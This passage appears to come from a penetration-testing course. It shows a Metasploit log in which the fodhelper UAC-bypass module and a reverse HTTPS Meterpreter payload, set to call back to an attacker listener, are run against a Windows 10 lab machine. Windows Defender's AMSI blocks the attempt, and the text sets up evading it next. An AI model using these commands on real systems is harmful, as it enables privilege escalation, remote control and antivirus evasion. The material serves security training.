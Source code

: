 ```
  1         meterpreter x64/windows  victim\Offsec @ victim  192.168.119.120:443 -> 192.168.120.11:51474 (192.168.120.11)

msf5 exploit(windows/local/bypassuac_fodhelper) > set session 1
session => 1

msf5 exploit(windows/local/bypassuac_fodhelper) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf5 exploit(windows/local/bypassuac_fodhelper) > set lhost 192.168.119.120
lhost => 192.168.119.120
msf5 exploit(windows/local/bypassuac_fodhelper) > set lport 444
lport => 444
msf5 exploit(windows/local/bypassuac_fodhelper) > exploit

[*] Started HTTPS reverse handler on https://192.168.119.120:444
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Configuring payload and stager registry keys ...
[-] Exploit failed [user-interrupt]: Rex::TimeoutError Operation timed out.
[-] exploit: Interrupted
```

> Listing 56 - Metasploit Fodhelper UAC bypass module fails

First we chose the module, displayed and set the 64-bit target option along with the session number, and configured the payload. Once we launched the exploit, it failed even though the user was a member of the administrators group.

If we view the desktop of the Windows 10 victim machine when the exploit is launched, we discover an alert from Windows Defender. To get more information, we can open the _Security Center_ app from the search menu, navigate to the _Virus & threat protection_ submenu, and click _Threat history_. Under _Quarantined threats_, we find the entry displayed in Figure 8.

<figure><img src="https://static.offsec.com/offsec-courses/PEN-300/imgs/aav/546e37e9f74c505ebd6d1ba0d6524e6b-aav_uac_meta.png" alt="Figure 8: Antivirus alert from Windows Defender due to Metasploit UAC module"><figcaption><p>Figure 8: Antivirus alert from Windows Defender due to Metasploit UAC module</p></figcaption></figure>

This antivirus alert refers to the PowerShell component of the UAC bypass and was triggered by AMSI.

Note: The amount of output in the multi/handler and the antivirus alert given can vary.

AMSI stops the default Metasploit fodhelper module from bypassing UAC and even kills the existing Meterpreter session.

In the next section, we'll attempt to execute the UAC bypass and evade AMSI.

**Exercises**

1. Manually run the Fodhelper UAC bypass with the PowerShell commands listed in this section.

